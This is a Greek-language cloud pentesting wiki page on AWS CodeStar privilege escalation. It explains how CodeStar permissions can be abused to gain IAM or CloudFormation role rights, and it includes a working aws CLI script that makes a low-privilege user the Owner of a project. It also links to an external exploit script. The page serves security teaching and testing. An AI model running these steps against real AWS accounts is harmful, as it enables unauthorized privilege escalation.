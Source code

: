 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

Μπορείτε να βρείτε περισσότερες πληροφορίες σχετικά με το codestar στο:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

Με αυτές τις άδειες μπορείτε να **καταχραστείτε έναν ρόλο IAM του codestar** για να εκτελέσετε **τυχαίες ενέργειες** μέσω ενός **προτύπου cloudformation**. Ελέγξτε την παρακάτω σελίδα:

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Αυτή η τεχνική χρησιμοποιεί το `codestar:CreateProject` για να δημιουργήσει ένα έργο codestar, και το `codestar:AssociateTeamMember` για να κάνει έναν χρήστη IAM **ιδιοκτήτη** ενός νέου έργου CodeStar, το οποίο θα τους παραχωρήσει μια **νέα πολιτική με μερικές επιπλέον άδειες**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Αν είστε ήδη **μέλος του έργου**, μπορείτε να χρησιμοποιήσετε την άδεια **`codestar:UpdateTeamMember`** για να **ενημερώσετε το ρόλο σας** σε ιδιοκτήτη αντί για `codestar:AssociateTeamMember`.

**Πιθανές Επιπτώσεις:** Privesc στην πολιτική codestar που δημιουργήθηκε. Μπορείτε να βρείτε ένα παράδειγμα αυτής της πολιτικής στο:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **Δημιουργία Νέου Έργου:**
- Χρησιμοποιήστε την ενέργεια **`codestar:CreateProjectFromTemplate`** για να ξεκινήσετε τη δημιουργία ενός νέου έργου.
- Μετά την επιτυχή δημιουργία, η πρόσβαση χορηγείται αυτόματα για **`cloudformation:UpdateStack`**.
- Αυτή η πρόσβαση στοχεύει συγκεκριμένα σε μια στοίβα που σχετίζεται με τον ρόλο IAM `CodeStarWorker-<generic project name>-CloudFormation`.
2. **Ενημέρωση της Στοίβας Στόχου:**
- Με τις χορηγημένες άδειες CloudFormation, προχωρήστε στην ενημέρωση της καθορισμένης στοίβας.
- Το όνομα της στοίβας θα συμμορφώνεται συνήθως με ένα από τα δύο πρότυπα:
- `awscodestar-<generic project name>-infrastructure`
- `awscodestar-<generic project name>-lambda`
- Το ακριβές όνομα εξαρτάται από το επιλεγμένο πρότυπο (αναφορά στο παράδειγμα exploit script).
3. **Πρόσβαση και Άδειες:**
- Μετά την ενημέρωση, αποκτάτε τις δυνατότητες που αποδίδονται στον **ρόλο IAM CloudFormation** που συνδέεται με τη στοίβα.
- Σημείωση: Αυτό δεν παρέχει εγγενώς πλήρη δικαιώματα διαχειριστή. Μπορεί να απαιτούνται επιπλέον κακώς ρυθμισμένοι πόροι εντός του περιβάλλοντος για να αυξήσετε περαιτέρω τα δικαιώματα.

Για περισσότερες πληροφορίες, ελέγξτε την αρχική έρευνα: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Μπορείτε να βρείτε το exploit στο [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο IAM cloudformation.

{{#include ../../../../banners/hacktricks-training.md}}
